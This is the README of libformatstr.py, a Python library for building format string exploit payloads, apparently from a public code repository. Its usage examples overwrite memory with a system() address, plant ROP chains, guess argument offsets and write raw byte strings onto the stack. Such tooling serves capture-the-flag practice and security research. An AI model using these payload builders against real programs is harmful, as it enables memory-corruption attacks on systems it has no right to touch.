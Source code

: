 libformatstr.py
====================

Small script to simplify format string exploitation.

Usage
---------------------

* Case 1 - replace one dword:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
system_addr = 0x080489a3

p = FormatStr()
p[addr] = system_addr

# buf is 14th argument, 4 bytes are already printed
sys.stdout.write( p.payload(14, start_len=4) )
```

* Case 2 - put ROP code somewhere:

```python
import sys
from libformatstr import FormatStr

addr = 0x08049580
rop = [0x080487af, 0x0804873c, 0x080488de]
p = FormatStr()
p[addr] = rop

sys.stdout.write( p.payload(14) )
```

* Case 3 - guess argument number and padding:

```python
import sys
from libformatstr import FormatStr

# let's say we have do_fmt function,
# which gives us only output of format string
# (you can also just copy fmtstr and output manually)

buf_size = 250  # fix buf_size to avoid offset variation
res = do_fmt(make_pattern(buf_size))
argnum, padding = guess_argnum(res, buf_size)

# of course you can use it in payload generation

p = FormatStr(buf_size)
p[0xbffffe70] = "\x70\xfe\xff\xbf\xeb\xfe"  # yes, you can also put strings

sys.stdout.write( p.payload(argnum, padding, 3) ) # we know 3 bytes were printed already
```
* Case 4 - write something in specificed order:

```python
from libformatstr import FormatStr
f=FormatStr(autosort=False) #This option disables auto sorting
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3

#The payload will write address 0x1234 first,then 0x5678,then 0xabcd.
```

* Case 5 - while you are in amd64:

```python
from libformatstr import FormatStr
f=FormatStr(isx64=1) #This option force script to use 64bit address
f[0x1234]=0x1
f[0x5678]=0x2
f[0xabcd]=0x3
```
About
---------------------

Author: hellman ( hellman1908@gmail.com )

License: MIT License ( http://opensource.org/licenses/MIT )
